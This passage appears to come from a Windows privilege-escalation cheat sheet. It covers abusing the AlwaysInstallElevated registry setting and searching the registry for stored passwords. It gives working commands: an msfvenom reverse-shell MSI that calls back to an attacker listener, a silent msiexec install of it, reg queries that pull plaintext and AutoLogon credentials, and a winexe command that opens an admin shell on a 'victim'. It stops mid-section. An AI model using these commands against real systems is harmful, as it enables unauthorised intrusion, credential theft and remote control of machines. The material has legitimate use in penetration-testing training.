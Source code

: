 > "The catch is that two Registry settings must be enabled for this to work.
The “AlwaysInstallElevated” value must be set to 1 for both the local machine:
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
and the current user: HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
If either of these are missing or disabled, the exploit will not work.

Check if you have the permissions

```powershell
reg query HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer 
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer 
```

Creating the payload

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

Installing the reverse shell

```powershell
msiexec /quiet /qn /i PATH_OF_THE_MSI
```

### Passwords Registry


> Even administrators re-use their passwords, or leave their passwords on systems in readable locations. Windows can be especially vulnerable to this, as several features of Windows store passwords insecurely.

> Registry — Plenty of programs store configuration options in the Windows Registry. Windows itself sometimes will store passwords in plaintext in the Registry. It is always worth searching the Registry for passwords.

The registry can be searched for keys and values that contain the word "password":

`reg query HKLM /f password /t REG_SZ /s`

If you want to save some time, query this specific key to find admin AutoLogon credentials:

`reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`

On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):

`winexe -U 'admin%password' //ip_of_victim cmd.exe`

Registry lookup by string `password`

```powershell
reg query HKLM /f password /t REG_SZ /s
```

admin AutoLogon credentials

```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

And login
